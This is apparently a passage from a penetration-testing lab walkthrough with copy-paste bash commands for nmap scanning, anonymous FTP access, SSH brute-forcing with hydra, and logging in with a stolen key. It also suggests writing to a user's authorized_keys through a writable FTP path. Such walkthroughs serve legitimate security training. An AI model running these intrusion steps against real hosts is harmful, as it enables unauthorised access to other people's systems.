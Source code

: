 ## Typical command walkthrough (detailed, copy-paste friendly)

Setup environment variables for convenience:
```bash
export IP=10.10.10.10
export LHOST=10.10.14.14
export LPORT=4444
mkdir -p scans loot mounts
```

### 1) Recon and scanning
```bash
# All TCP ports, noisy but fast
nmap -p- -sS -n -Pn --min-rate 2000 -oA scans/alltcp $IP

# Parse open ports to a comma list
PORTS=$(awk -F/ '/open/{print $1}' scans/alltcp.nmap | paste -sd,)

# Service/version + default scripts on discovered ports
nmap -sCV -p"$PORTS" -oA scans/versions $IP

# Common UDP (SNMP, etc.)
nmap -sU -p 161,69,123,137,138 --top-ports 50 -oA scans/udp $IP
```

### 2) FTP (21) — anonymous access and file write
```bash
# NSE checks
nmap -p21 --script ftp-anon,ftp-bounce,ftp-syst,ftp-proftpd-backdoor $IP

# Try anonymous
ftp -inv $IP << 'EOF'
user anonymous anonymous@
pwd
ls -la
cd /
ls -la
get readme.txt
bye
EOF
```
- If writeable: attempt to upload test file, or target a user’s .ssh/authorized_keys via an accessible path.

### 3) SSH (22) — credential reuse, key-based auth
```bash
# Fast banner/version
nc -nv $IP 22 <<< ''

# Try known creds
# hydra example: replace userlist/passlist paths
hydra -L users.txt -P passwords.txt -t 4 ssh://$IP

# If you obtained a private key id_rsa:
chmod 600 id_rsa
ssh -i id_rsa user@$IP
```
